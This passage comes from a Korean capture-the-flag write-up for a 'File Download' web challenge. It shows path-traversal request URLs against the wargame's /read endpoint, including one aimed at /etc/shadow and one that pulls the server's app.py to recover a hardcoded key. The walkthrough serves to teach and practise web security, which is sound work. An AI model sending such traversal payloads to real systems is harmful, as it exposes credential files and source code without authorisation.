 소스코드에 있는 키를 그대로 넣으면 안됨

서버의 `app.py`파일에는 제대로된 키 값이 하드코딩 되어 있을 것임. 이걸 찾아야함

|

```bash
http://war.knock-on.org:10009/read?name=../../../../../../../../../etc/shadow
```

```bash
http://war.knock-on.org:10009/read?name=../uploads/diary.txt
```

`/read`에서 name 파라미터를 이용해 경로를 이동할 수 있음

![10. File Download 4](/assets/images/writeup/web-hacking/knock-on/10_FILE_4.png)

uploads와 같은 경로에 app.py가 존재함

|

```bash
http://war.knock-on.org:10009/read?name=../app.py
```

![10. File Download 5](/assets/images/writeup/web-hacking/knock-on/10_FILE_5.png)
